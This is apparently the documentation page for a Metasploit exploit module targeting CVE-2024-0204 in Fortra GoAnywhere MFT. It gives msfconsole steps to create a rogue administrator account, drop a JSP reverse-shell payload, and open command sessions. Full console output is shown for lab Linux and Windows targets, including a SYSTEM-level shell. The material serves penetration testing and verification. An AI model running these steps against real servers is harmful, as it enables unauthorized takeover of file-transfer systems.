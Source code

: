 ## Vulnerable Application
This module exploits a vulnerability in Fortra GoAnywhere MFT that allows an unauthenticated attacker to
create a new administrator account. This can be leveraged to upload a JSP payload and achieve RCE. GoAnywhere
MFT versions 6.x from 6.0.1, and 7.x before 7.4.1 are vulnerable.

## Testing
To test use Fortra GoAnywhere 7.4.0. You will need to register for a trial from the Fortra website in order to
receive a 30 day trial license. The portal where you receive a trial license will only let you download the most
recent version of the product, so you will also need to have access to an installer for an older, vulnerable version
of the product to install and test on.

## Verification Steps
The exploits default target 0 (Automatic), will detect the target systems OS, so you do not need to specify the target
OS (Linux or Windows).

1. Start msfconsole
2. `use exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD java/jsp_shell_reverse_tcp`
6. `check`
7. `exploit`

## Options

### GOANYWHERE_INSTALL_PATH
This is the file system path to the GoAnywhere MFT installation. If the target is set to `Automatic`, then this path
will be discovered automatically.

## Scenarios
The Automatic target will detect the GoAnywhere MFT servers OS and select the correct target, or you can explicitly
select a target platform (Linux or Windows).

### Automatic (Linux)

```
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.30      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.30:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: zgrxotrm:xzseqhgR2Jqug8n6
[*] Automatic targeting, detected OS: Linux
[*] Automatic targeting, detected install path: /opt/HelpSystems/GoAnywhere
[*] Dropped payload: /opt/HelpSystems/GoAnywhere/adminroot/aKEWOd4J.jsp
[+] Deleted /opt/HelpSystems/GoAnywhere/adminroot/aKEWOd4J.jsp
[!] Tried to delete /opt/HelpSystems/GoAnywhereuserdata/documents/zgrxotrm/aKEWOd4J.jsp, unknown result
[!] Tried to delete /opt/HelpSystems/GoAnywhereuserdata/documents/zgrxotrm/, unknown result
[*] Command shell session 8 opened (10.100.1.10:4444 -> 10.100.1.30:45826) at 2024-01-29 16:29:16 +0000

id
uid=1002(gamft) gid=1002(gamft) groups=1002(gamft)
pwd
/opt/HelpSystems/GoAnywhere
uname -a
Linux ubuntu-test-vm 6.5.0-15-generic #15~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 12 18:54:30 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.100.1.30 - Command shell session 8 closed.
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) >
```

### Automatic (Windows)

```
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.20      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.20:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: ckgbeqlo:ib0Qk3cMDvnaipTP
[*] Automatic targeting, detected OS: Windows
[*] Automatic targeting, detected install path: C:\Program Files\Fortra\GoAnywhere
[*] Dropped payload: C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp
[!] Tried to delete C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp, unknown result
[!] Tried to delete C:\Program Files\Fortra\GoAnywhereuserdata\documents\ckgbeqlo\b9OvIFdK.jsp, unknown result
[*] Command shell session 9 opened (10.100.1.10:4444 -> 10.100.1.20:57059) at 2024-01-29 16:31:01 +0000
[!] This exploit may require manual cleanup of 'C:\Program Files\Fortra\GoAnywhereuserdata\documents\ckgbeqlo\' on the target


Shell Banner:
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.
-----
          

C:\Program Files\Fortra\GoAnywhere>whoami
whoami
nt authority\system

C:\Program Files\Fortra\GoAnywhere>exit
exit
[*] 10.100.1.20 - Command shell session 9 closed.
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > 
```
